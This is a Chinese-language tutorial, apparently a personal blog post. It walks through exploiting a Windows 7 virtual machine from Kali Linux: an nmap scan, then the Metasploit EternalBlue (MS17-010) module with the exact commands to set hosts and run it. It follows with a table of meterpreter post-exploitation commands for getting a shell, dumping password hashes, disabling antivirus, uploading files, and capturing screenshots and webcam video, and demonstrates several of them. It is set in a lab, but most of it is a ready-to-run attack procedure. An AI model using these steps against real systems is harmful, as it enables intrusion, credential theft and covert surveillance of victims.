### 环境准备

首先需要准备两台虚拟机，一台运行kali linux，一台运行windows7，windows其他版本的没有测试，不过非常有可能其他版本已经修复这个bug了，用来学习测试的话，用windows7比较妥善。

<!-- more -->

### 网络准备

必须保证windows7和kali linux 在同一个局域网底下，即保证这两台机器IP都是同一个网段的地址。

### 攻击开始

1. 使用kali的nmap工具进行扫描，查看同一个网络下，有哪些主机。运行下面这个命令。

```c
    # nmap -T4 -A -v -Pn 192.168.20.1/24
```


可以看到有一个***192.168.20.129***的主机可用，开启了445端口。我们就对这个主机进行攻击。

2. windows验证一下，发现windows获取的IP确实是***192.168.20.129***



3. 在kali上使用工具开始攻击，运行以下命令，稍作等待。

```c
    # msfconsole -q  
```

> -q 选项不再继续打印工具启动时的图形文字

> 运行之后是这样的效果



4. 执行以下命令，搜索可以利用的漏洞工具

```c
    msf6 > search ms17-010
```


5. 选择序号为0的漏洞进行攻击，分别执行以下代码

```c
    msf6 > use 0
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.20.50
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.20.129
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

> set lhost 是设置攻击主机的IP，set rhost 是设置靶机主机的IP，run开始进行攻击。

效果图如下：



6. 稍等片刻，攻击成功后，命令行的提示文字会变为**meterpreter>**，入侵完成，我们可以用命令进行对windows主机的任何操作。

|命令|功能|
|:---:|:---:|
|shell|启动靶机主机的cmd|
|screenshot|对靶机进行屏幕截图|
|webcam_list|列出摄像头|
|webcam_snap|利用靶机摄像头拍照|
|webcam_stream|利用靶机摄像头拍视频|
|getuid|获取登录用户|
|getsystem|获取磁盘信息|
|hashdump|获取密码的哈希值|
|kill|杀掉进程|
|download|下载文件|
|upload|上传文件|
|run killav|关闭杀软|
|run post/windows/manage/killava|关闭杀软|
|run post/windows/gather/checkkvm|检查是否是虚拟机|
|run post/windows/gather/enum_services|列出所有的服务|
|run post/windows/gather/enum_applications|列出运行的程序|
|run post/windows/gather/enum_patches|列出打的补丁|
|run post/windows/gather/dumplinks|列出最近的操作|


7. 以下是利用上述命令实现的一些效果图

* 使用shell

```c
    meterpreter > shell
```
> 运行之后成功进入shell，但是会出现部分乱码，接着输入命令`chcp 65001`，回车后乱码变正常。



* 屏幕截图，运行以下命令

```c
    meterpreter > screenshot
```

运行成功后桌面上会多了一张windows的屏幕截图



* 上传文件

上传这一张照片



执行以下命令

```c
    meterpreter > upload /home/kali/Desktop/shuaige.png c:\\shuaige.png
```



显示上传成功，然后去windows主机验证。



上传成功，windows正常查看。

* 调用网络摄像头，运行以下命令

```c
    meterpreter > webcam_stream
```



> kali 成功调用到了windows7的摄像头

### 写在后面的话

网络并不是法外之地，且行且珍惜。